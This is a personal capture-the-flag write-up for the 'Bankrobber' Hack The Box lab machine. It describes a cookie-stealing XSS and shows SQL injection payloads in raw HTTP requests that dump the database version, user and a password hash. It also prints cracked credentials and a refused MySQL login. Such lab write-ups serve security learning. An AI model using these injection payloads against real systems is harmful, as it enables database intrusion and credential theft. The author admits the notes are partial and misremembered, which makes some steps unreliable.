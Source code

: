# Bankrobber

- Difficulty: "Insane"
- Platform: Windows
---

10.10.10.154

## Nmap
```nmap
I wiped out disk without backing up notes like an idiot... 
picking up from web-admin access

The Rundown:

Esentially, there is a database user search and and E-Coin transfer service. 
The transfer service is manually reviewed by an administrator. 

The filed inputs do not validate/sanitize.
A cross-site scripting attack is possible, although finicky, returning the administrator's cookie within the response headers.

There seems to be SQL-Injection present in the user database lookup, although I have yet to go any further. I am conflating both these things together and I forget what I actually did ut oh well... continuing.
```

`admin:Hopelessromantic`

A regular union select statement reveals version `MariaDB-10.1.38` in field 2:`
```http
POST /admin/search.php HTTP/1.1
Host: 10.10.10.154
Content-Length: 37
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-type: application/x-www-form-urlencoded
Accept: */*
Origin: http://10.10.10.154
Referer: http://10.10.10.154/admin/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: id=1; username=YWRtaW4%3D; password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D
Connection: close

term=1'union+select+1,@@version,3-- -
```

```
term=1'union+select+1,user()+from+mysql.user,3-- -
user: `root@localhost`

lucky guess:
term=1'union slect user,password,3 from mysql.user--
hash: *F435725A173757E57BD36B09048B8B610FF4D0C4
```

SHA-1 hash decodes to `Welkom1!`. This could be either admin or gio's password. Connections aren't permitted to the MySQL service from an external IP. Localhost only:
```bash
➜  loot git:(main) ✗ mysql -u 'gio' -p 'Welkom1!' -h 10.10.10.154
mysql: Deprecated program name. It will be removed in a future release, use '/usr/bin/mariadb' instead
Enter password: 

ERROR 1130 (HY000): Host '10.10.14.2' is not allowed to connect to this MariaDB server
```

